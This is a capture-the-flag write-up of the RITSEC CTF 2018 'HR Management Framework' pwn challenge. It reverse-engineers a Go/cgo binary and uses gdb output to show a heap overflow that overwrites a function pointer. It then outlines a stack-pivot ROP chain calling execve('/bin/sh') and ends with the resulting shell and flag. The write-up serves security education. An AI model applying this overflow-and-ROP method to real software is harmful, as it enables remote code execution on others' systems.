



RITSEC CTF 2018: Yet Another HR Management Framework (Pwn 250)
==============================================================

## Description

Although there has been a ton of human resources management frameworks out
there, `fpasswd` still wants to write his own framework. Check it out and SEE
how that GOes!

`nc fun.ritsec.club 1337`

*Author: fpasswd*

## Analysis

```
$ file pwn2
pwn2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, Go BuildID=b489c015714bb598d34b6f4e04632de90b476a2a1, BuildID[sha1]=8683cf78a615c5820aef885b4612b71806a77b00, not stripped
```

The challenge binary is a large (1.4MB) 32-bit x86 executable and it's not
stripped. Let's try running it:

```
$ ./pwn2
Welcome to yet another human resources management framework!
============================================================
1. Create a new person
2. Edit a person
3. Print information about a person
4. Delete a person
5. This framework sucks, get me out of here!
Enter your choice:
```

Judging by the interface this is probably going to be a heap-based challenge:
we can malloc (create a person), free (delete a person), edit some information
and printing information about a person. But before we jump to conclusions,
let's have a look at the binary in a disassembler.



Some of those function names (for example `cgoCheckPointer0`) suggest that this
is a Go program that calls some C code using [cgo](https://golang.org/cmd/cgo/).
Go is memory safe so we can ignore most of the binary and only look for
vulnerabilities in the C functions.

The `main._Cfunc_*` functions all seem to be wrappers around the actual C
functions, which are located at the end of the function list. For example this
is the implementation of createPerson:



As we can see our guess was correct: each person is a 12 byte struct on the heap,
and the first DWORD is set to the address of `printPerson`, another function.

After reversing all the C functions this is the picture we get:

```c
struct person {
	void (*print_fn)(struct person *p);
	char *name;
	unsigned int age;
};

struct gets_info {
	void *buffer;
	size_t size;
};

unsigned int numPerson;
struct person *p[10];

void printPerson(struct person *my_p)
{
	printf("Name: %s\n", my_p->name);
	printf("Age: %u\n", my_p->age);
}

void createPerson(void)
{
	if (numPerson > 9) {
		puts("No more person for you.");
	} else {
		p[numPerson] = malloc(12);
		p[numPerson]->print_fn = printPerson;
	}
}

void deletePerson(unsigned int i)
{
	free(p[i]->name);
	free(p[i]);
}

void printPersonWrapper(unsigned int i)
{
	p[i]->print_fn(p[i]);
}

ssize_t myGets(struct gets_info *info)
{
	return read(0, info->buffer, info->size);
}
```

If we can somehow overwrite the function pointer at the beginning of a person,
we can redirect execution. Let's switch to dynamic analysis and try to see what
happens when we create some people.

```
gef➤  r
Welcome to yet another human resources management framework!
============================================================
1. Create a new person
2. Edit a person
3. Print information about a person
4. Delete a person
5. This framework sucks, get me out of here!
Enter your choice: 1

Creating a new person...
Enter name length: 1
Enter person's name: a
Enter person's age: 1

Welcome to yet another human resources management framework!
============================================================
1. Create a new person
2. Edit a person
3. Print information about a person
4. Delete a person
5. This framework sucks, get me out of here!
Enter your choice: 1

Creating a new person...
Enter name length: 1
Enter person's name: a
Enter person's age: 1

Welcome to yet another human resources management framework!
============================================================
1. Create a new person
2. Edit a person
3. Print information about a person
4. Delete a person
5. This framework sucks, get me out of here!
Enter your choice: ^C

gef➤  x/4x 0x081a3ca0
0x81a3ca0 <p>:  0x081a8370      0x081a8390      0x00000000      0x00000000

gef➤  x/3x 0x81a8370
0x81a8370:      0x080ebb10      0x081a8380      0x00000001

gef➤  x/3x 0x81a8390
0x81a8390:      0x080ebb10      0x081a83a0      0x00000001
```

Hmm, so it looks like both names and person structs are allocated on the heap
(as expected) and they are interleaved like this:

```
0x81a8370: ---------------
           |   Person 1  |
0x81a8380: ---------------
           |   Name 1    |
0x81a8390: ---------------
           |   Person 2  |
0x81a83a0: ---------------
           |   Name 2    |
           ---------------
```

But what happens if we try to edit a person? We can guess that `myGets` will be
used to read the new name so let's put a breakpoint on `read`.

```
gef➤  b read
Breakpoint 1 at 0xf7e7fd10 (2 locations)
gef➤  c
Continuing.
2

Editting a person...
Enter person's index (0-based): 0
Enter new name length: 1337
Enter the new name:
Thread 1 "pwn2" hit Breakpoint 1, 0xf7f85360 in read () from /usr/lib32/libpthread.so.0

gef➤  x/4x $esp
0xffffd67c:     0x080ebc5f      0x00000000      0x081a8380      0x00000539
```

It looks like we're writing into the existing name buffer for person 1 with no
bounds checking at all (we're reading 1337 bytes but the malloc chunk for name 1
is only 16 bytes). This means that we can overflow person 1's name and overwrite
person 2's print function pointer, then print person 2 to get code execution.
Let's put that theory to test.

```
Enter your choice: 2

Editting a person...
Enter person's index (0-based): 0
Enter new name length: 1337
Enter the new name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Done.

Welcome to yet another human resources management framework!
============================================================
1. Create a new person
2. Edit a person
3. Print information about a person
4. Delete a person
5. This framework sucks, get me out of here!
Enter your choice: 3

Printing a person...
Enter person's index (0-based): 1

Thread 1 "pwn2" received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Great! We control EIP, now we only have to write an exploit to get code
execution on the server.

## Exploitation

The code that calls the overwritten function pointer is this:



It first pushes the address of the corrupted person struct on the stack, then
calls the function pointer. After the call the stack will look like this:

```
         ---------------
esp:     |   Ret addr  |
         ---------------
esp + 4: |    &p[1]    |
         ---------------
         |     ...     |
```

If we can find a ROP gadget that first removes the return address from the stack
and then pops the stack pointer, we can use the memory of person 2 (which we
control) as our stack for a ROP chain. Since the target binary is not position-
independent we don't even need an infoleak to gain code execution. This one will
do:

`0x80c0620 : pop ebp ; add al, 0x89 ; pop esp ; and al, 0x30 ; add esp, 0x24 ; ret`

Now that we have control of the stack, all we need to do is to write a ROP chain
that places `/bin/sh\0` somewhere in writable memory and invokes `execve` to get
us a shell. I used a random spot in `.bss` to store `/bin/sh` because it's
writable and sits at a known address.

```
$ python2 exploit.py
[+] Opening connection to fun.ritsec.club on port 1337: Done
[*] Switching to interactive mode
$ ls
flag.txt
pwn2
$ cat flag.txt
RITSEC{g0_1s_N0T_4lw4y5_7he_w4y_2_g0}$
[*] Closed connection to fun.ritsec.club port 1337
```
